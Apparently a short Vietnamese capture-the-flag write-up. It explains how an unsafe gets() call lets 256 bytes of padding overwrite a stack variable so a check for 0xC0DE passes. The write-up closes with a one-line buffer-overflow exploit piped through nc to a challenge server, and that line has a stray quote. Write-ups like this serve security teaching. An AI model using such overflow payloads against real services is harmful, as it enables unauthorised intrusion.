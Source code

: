 # Solve
> Mở file bằng ida ta có:

![](pwn1.png)

Để có được flag thì v4 phải bằng 0xC0DE.
mà `v4 = choice()`
Chạy đến hàm choice() để xem giá trị của v4 được tính như thế nào.

![](pwn2.png)

![](pwn3.png)

Nhìn vào đó có thể thấy được v49 là giá trị trả về.
Địa chỉ của v49 trong stack là: `bp-110h`
Đại chỉ của s trong stack là: `bp-210h`
`gets(&s);` là hàm không an toàn thế nên nếu nhập vào một xâu có độ dài vượt quá `0x210-0x110 = 256` thì sẽ bị tràn giá trị xuống v49.

Từ đó ta có cú pháp sau:
```cmd
python -c"print 'a'*256'+'\xde\xc0\x00\x00'" | nc 103.237.99.35 25033
```
